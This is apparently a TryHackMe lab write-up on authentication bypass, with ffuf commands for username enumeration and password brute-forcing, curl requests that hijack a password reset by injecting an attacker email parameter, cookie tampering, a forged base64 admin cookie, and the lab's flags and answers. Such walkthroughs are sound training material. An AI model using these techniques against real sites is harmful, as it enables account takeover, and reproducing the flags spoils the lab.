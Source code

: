 # THM - Authentication Bypass

<br>

## Task 2

🧰 https://github.com/ffuf/ffuf

http://10.10.113.185/customers/signup

### Task 2.1

```shell
ffuf -w ../../Tools/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.113.185/customers/signup -mr "username already exists"

echo -e "admin\nrobert\nsimon\nsteve" >> valid_usernames.txt
```

> simon

### Task 2.2

> steve

### Task 2.3

> robert

<br>

## Task 3

http://10.10.113.185/customers/login

### Task 3.1

```shell
ffuf -w valid_usernames.txt:W1,../../Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.113.185/customers/login -fc 200
```

> Steve/thunder

<br>

## Task 4

### Task 4.1

```shell
curl 'http://10.10.113.185/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

curl 'http://10.10.113.185/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

http://10.10.113.185/customers/signup

Username: dftf

```shell
curl 'http://10.10.113.185/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=dftf@customer.acmeitsupport.thm'
```

http://10.10.113.185/customers/tickets/3

http://10.10.113.185/customers/reset/2b569ead859164754e7dbe86dd0ad233

http://10.10.113.185/customers/tickets/1

> THM{AUTH_BYPASS_COMPLETE}


<br>

## Task 5

```shell
curl http://10.10.88.14/cookie-test

curl -H "Cookie: logged_in=true; admin=false" http://10.10.88.14/cookie-test
```

### Task 5.1

```shell
curl -H "Cookie: logged_in=true; admin=true" http://10.10.88.14/cookie-test
```

> THM{COOKIE_TAMPERING}

### Task 5.2

🧰 https://crackstation.net/

> 463729

### Task 5.3

```shell
echo "VEhNe0JBU0U2NF9FTkNPRElOR30=" | base64 -d
```

> THM{BASE64_ENCODING}

### Task 5.4

```shell
echo '{"id":1,"admin":true}' | base64
```

> eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==

